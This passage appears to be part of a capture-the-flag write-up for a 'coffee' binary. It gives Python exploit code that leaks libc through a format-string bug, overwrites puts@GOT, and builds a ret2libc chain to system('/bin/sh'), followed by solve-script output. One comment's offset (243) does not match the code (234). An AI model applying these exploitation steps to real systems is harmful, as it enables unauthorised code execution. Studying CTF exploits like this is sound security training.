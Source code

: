 ```python
"""
ROPgadget --binary coffee --only "pop|ret"
0x000000000040128b : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000401293 : pop rdi ; ret
"""
rdi_ret=0x0000000000401293
rbp_ret=0x000000000040128b

# payload to leak libc
payload1  = b""
# print the 29th parameter which is __libc_start_main+243
payload1 += b"%29$018p"
#print rbp_ret-18 to the 9th parameter which is in the stack pointed to put@got
payload1 += b"%"+str.encode(str(rbp_ret-18))+b"c"
payload1 += b"%9$ln"
payload1 = padding(payload1)
payload1 += p64(put_got)
payload1 += p64(main_addr)

s.sendline(payload1)
leak=s.recv()
```

now we have the libc base. then, we have to consider how to let program run system@plt(*binsh)  
```python
# calcuelate libc base address
libc_start_main_addr=int(leak[:18],16)
print("leaked __libc_start_main_addr+234:"+str(hex(libc_start_main_addr)))

libc_base=libc_start_main_addr-libc.symbols["__libc_start_main"]-234
print("libc_base:"+str(hex(libc_base)))
libc_system=libc_base+libc.symbols['system']
libc_binsh=libc_base+next(libc.search(b'/bin/sh'))

 Low Address |                 |
             +-----------------+
     rsp =>  |     padding     |
             +-----------------+
             |     padding     |
             +-----------------+
             |     padding     |
             +-----------------+
             |     padding     |
             +-----------------+
             |   pop rdi;ret   |
             +-----------------+
             |     /bin/sh     |
             +-----------------+
High Address |   *system@plt   |
```

bingo! get shell
```
root@root:~/Desktop/CTF/tgsctf2021/coffee$ ./solve.py 
[+] Starting local process './coffee': pid 200100
[*] '/lib/x86_64-linux-gnu/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] '/home/root/Desktop/CTF/tgsctf2021/coffee/coffee'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
```
